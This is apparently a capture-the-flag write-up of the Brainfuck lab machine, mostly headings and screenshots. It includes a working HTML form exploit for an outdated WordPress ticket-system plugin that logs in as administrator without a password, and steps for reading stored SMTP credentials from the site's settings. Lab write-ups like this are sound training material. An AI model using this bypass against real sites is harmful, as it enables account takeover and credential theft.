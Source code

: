 # 10 - Brainfuck

# Web Server

![](vx_images/5462397826319.png)


# Certificate review (DNS and Email Records)

![](vx_images/1774113268796.png)


# Brainfuck.htb

![](vx_images/3363908615411.png)


# Super Secret Forum

![](vx_images/1952032941162.png)


# Wordpress


![](vx_images/5795105889566.png)


# Wordpress is running an older version of wp-support-plus-responsive-ticket-system and there is an exploit on exploit-db. See [05 - Enumeration.md](../05%20-%20Enumeration.md/05%20-%20Enumeration.md) for the wpscan output

![](vx_images/4423908546209.png)


# Exploit
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```


![](vx_images/3030523092687.png)

After a while this empty page is loaded 

![](vx_images/1100272907031.png)



Let's go to the index page now

![](vx_images/1203132871357.png)


On the top of the page we can see the admin bar, we are in fact logged in without providing any password


# SMTP integration

On the index page it has a post about SMTP integration, and because of that integration we can obtain the credentials from **Settings** -> **Easy WP SMTP**

![](vx_images/385247492897.png)

Let's unhide the password by changing the **input type** from password to username or we can just grab the value while we are at it

![](vx_images/5435062618733.png)

